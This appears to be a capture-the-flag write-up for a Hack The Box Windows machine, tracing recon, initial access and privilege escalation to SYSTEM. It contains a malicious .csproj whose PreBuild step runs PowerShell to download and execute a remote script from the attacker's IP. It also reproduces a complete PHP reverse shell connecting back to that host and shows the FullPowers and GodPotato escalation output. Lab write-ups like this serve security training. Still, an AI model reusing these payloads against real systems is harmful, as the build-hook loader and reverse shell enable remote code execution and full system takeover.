



# Visual Writeup
<figure></figure>

## Target IP: 10.10.11.234

Nmap Scan:

```
┌──(kali㉿kali)-[~/Desktop/htb/visual]
└─$ nmap -sC -sV -vv 10.10.11.234 
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Visual - Revolutionizing Visual Studio Builds
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA

```

## Web Enumeration

Let's do a bit of directory fuzzing.

```
┌──(kali㉿kali)-[~/Desktop/htb/visual]
└─$ ffuf -u http://10.10.11.234/FUZZ -w /usr/share/dirb/wordlists/common.txt -mc 200,204,301,302,307

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.234/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307
________________________________________________

                        [Status: 200, Size: 7534, Words: 2665, Lines: 118, Duration: 95ms]
assets                  [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 95ms]
css                     [Status: 301, Size: 335, Words: 22, Lines: 10, Duration: 90ms]
index.php               [Status: 200, Size: 7534, Words: 2665, Lines: 118, Duration: 91ms]
js                      [Status: 301, Size: 334, Words: 22, Lines: 10, Duration: 89ms]
uploads                 [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 89ms]
:: Progress: [4614/4614] :: Job [1/1] :: 401 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

So we make the project and upload it to the application.

# User Flag

I hosted gitea on my localhost using `docker`.


```
version: "3"

networks:
  gitea:
    external: false

services:
  server:
    image: gitea/gitea:1.16.5
    container_name: gitea
    environment:
      - USER_UID=135
      - USER_GID=140
    restart: always
    networks:
      - gitea
    volumes:
      - ./gitea:/data
      - /home/git/.ssh/:/data/git/.ssh
      - /etc/timezone:/etc/timezone:ro
      - /etc/localtime:/etc/localtime:ro
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"

```

And generated the files.

```
$ wget https://dot.net/v1/dotnet-install.sh -O dotnet-install.sh
$ chmod +x ./dotnet-install.sh
$ ./dotnet-install.sh --version latest
$ ./dotnet-install.sh --channel 6.0
$ ln -s /root/.dotnet/dotnet /usr/local/bin/

$ mkdir project && cd project
$ mkdir visual
$ dotnet new console -n visual -f net6.0
$ dotnet new sln -n visual
$ dotnet sln visual.sln add visual/visual.csproj

total 4
drwxr-xr-x 1 root root  40 гру  8 15:29 .
drwxr-xr-x 1 root root 544 гру  8 15:29 ..
drwxr-xr-x 1 root root 144 гру  8 15:30 .git
drwxr-xr-x 1 root root  52 гру  8 15:28 visual
-rw-r--r-- 1 root root 994 гру  8 15:28 visual.sln
```

It will compile and generate the `exe` and `dll` itself.


So I made a malicious .csproj file and uploaded it to the git repo.


```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net7.0</TargetFramework>
    <RootNamespace>project_name</RootNamespace>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.37:8000/revshell.ps1')" />
  </Target>

</Project>
```

I added a reverse shell `revshell.ps1` and got a reverse connection.

<figure></figure>

Since I got the rev shell so we have the user flag now.

## Root Flag

I am using a `reverseshell.php`.

```
<?php
// Copyright (c) 2020 Ivan Šincek
// v2.6
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer = 1024;  // read/write buffer size
    private $clen   = 0;     // command length
    private $error  = false; // stream read/write error
    private $sdump  = true;  // script's dump
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        $os = PHP_OS;
        if (stripos($os, 'LINUX') !== false || stripos($os, 'DARWIN') !== false) {
            $this->os    = 'LINUX';
            $this->shell = '/bin/sh';
        } else if (stripos($os, 'WINDOWS') !== false || stripos($os, 'WINNT') !== false || stripos($os, 'WIN32') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
            // once daemonized, you will actually no longer see the script's dump
        } else if (posix_setsid() < 0) {
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        if ($this->sdump) {
            $data = str_replace('<', '<', $data);
            $data = str_replace('>', '>', $data);
            echo $data;
        }
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set the global error flag
            echo "STRM_ERROR: Cannot read from {$name}, script will now exit...\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set the global error flag
            echo "STRM_ERROR: Cannot write to {$name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $size = fstat($input)['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // so we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: {$status['pid']}\n");
                    do {
                        $status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.16.37', 3333);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

Just started a python server and downloaded it on the machine.

<figure></figure>

Checking Priviledge information.

```
C:\xampp\htdocs\uploads>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Since the user is a local service, we can restore the account's default permissions.


```
$ sudo apt install windows-binaries

$ git clone https://github.com/itm4n/FullPowers.git

$ cd FullPowers

$ wget https://github.com/itm4n/FullPowers/releases/download/v0.1/FullPowers.exe

$ curl http://10.10.16.37:8000/FullPowers.exe -O FullPowers.exe
```

And Now executing it.

```
C:\Users\Public\Documents>FullPowers
[+] Started dummy thread with id 520
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.4851]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

Now I used GodPotato, to escalate service user to System Privledges.

Imported the file in victim machine & got the root flag.

```
C:\Users\Public\Documents>God -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
[*] CombaseModule: 0x140732507947008
[*] DispatchTable: 0x140732510253168
[*] UseProtseqFunction: 0x140732509629344
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\1ad135c7-2284-4d95-9193-2950dfeef245\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00007402-08f8-ffff-2919-3d1eb9c56c5f
[*] DCOM obj OXID: 0xd4349cce57ab6c24
[*] DCOM obj OID: 0x9d919cf39ca0fa19
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 888 Token:0x800  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 4804
0547d725a7555416b7fd6acac2459f3b
```

Thank you!! Happy Hacking :D